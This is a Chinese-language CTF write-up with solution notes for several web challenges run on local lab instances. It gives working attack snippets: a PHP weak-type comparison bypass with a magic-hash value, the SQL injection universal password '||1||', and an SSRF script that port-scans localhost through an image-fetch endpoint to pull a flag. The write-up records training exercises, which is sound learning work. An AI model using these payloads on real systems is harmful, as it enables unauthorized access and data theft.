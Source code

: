 - > 没记的都是简单题
- > Re: 从零开始的 XDU 教书生活又是无聊的脚本题目，不写了
- # 静态网页
	- 从[这里](https://github.com/fghrsh/live2d_api)找到API定义，查看皮肤找到`final1l1l_challenge.php`
	- 然后绕弱类型
		- ```python
		  url = "http://127.0.0.1:40589/final1l1l_challenge.php"
		  
		  r = requests.post(url, params = {
		      "a": "0e0 "
		  }, data = {
		      "b[0e0 ]": "aa044f68228982a626273a592455c311"
		  })
		  print(r.text)
		  # print(r.json())
		  ```
- # 电院_Backend
	- sql注入，用万能密码`'||1||'`
- # 勇闯铜人阵
	- 脚本
		- ```python
		  url = "http://127.0.0.1:35927/"
		  
		  number_map = {
		      1: "北方",
		      2: "东北方",
		      3: "东方",
		      4: "东南方",
		      5: "南方",
		      6: "西南方",
		      7: "西方",
		      8: "西北方",
		  }
		  
		  base_request.reset_session()
		  r = base_post(url, data={"player": "114514", "direct": "弟子明白"})
		  for _ in range(5):
		      bs = BeautifulSoup(r.text)
		      question = bs.select("#status")[0].text.strip()
		  
		      if len(question) == 1:
		          answer = number_map[int(question)]
		      else:
		          print(question)
		          answer = "，".join(number_map[int(i)] + "一个" for i in question.split(", "))
		      print(answer)
		      r = base_post(url, data={"player": "114514", "direct": answer})
		  print(r.text)
		  ```
- # ImageCloud
	- 题目长得很吓人，实际上就只是一个SSRF而已
	- 先扫一下端口
		- ```python
		  url = "http://127.0.0.1:37361"
		  
		  def test_port(port):
		  
		      r = requests.get(url + "/image", params = {
		          "url": f"http://127.0.0.1:{port}/image/flag.jpg"
		      })
		  
		      return len(r.text)
		  ```
	- 然后对着对应的端口拿flag图片
		- ```python
		  r = base_get(url + "/image", params = {
		      "url": f"http://127.0.0.1:5423/image/flag.jpg"
		  })
		  
		  with open("flag.jpg", "wb") as f:
		      f.write(r.content)
		  ```
	- ![flag.jpg](../assets/flag_1723908165704_0.jpg){:height 476, :width 472}